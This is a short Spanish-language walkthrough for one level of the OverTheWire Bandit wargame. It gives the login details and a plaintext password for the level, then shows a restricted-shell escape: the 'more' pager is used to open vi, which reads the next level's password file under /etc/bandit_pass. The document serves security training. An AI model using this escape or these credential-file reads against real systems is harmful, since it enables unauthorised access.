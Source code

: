 ## Objetivo

## Datos de acceso al nivel
**bandit.labs.overthewire.org**
bandit24
Pasword
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
****** 
## Solucion
```shell
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext
ssh -i bandit26.sshkey bandit26@localhost -p2220
ssh -i bandit26.sshkey bandit26@localhost -p2220
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p  
2220  
| | | (_) | |__ \ / /  
| |__ __ _ _ __ __| |_| |_ ) / /_  
| '_ \ / _` | '_ \ / _` | | __| / / '_ \  
| |_) | (_| | | | | (_| | | |_ / /| (_) |  
--More--(83%)  
v  
_ _ _ _ ___ __  
| | | (_) | |__ \ / /  
| |__ __ _ _ __ __| |_| |_ ) / /_  
| '_ \ / _` | '_ \ / _` | | __| / / '_ \  
| |_) | (_| | | | | (_| | | |_ / /| (_) |  
"~/text.txt" [readonly] 6L, 258B  
:e /etc/bandit_pass/bandit26  
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1  
~  
~  
~  
~  
"/etc/bandit_pass/bandit26" [readonly] 1L, 33B

```
## Notas adicionales 

## Referencias
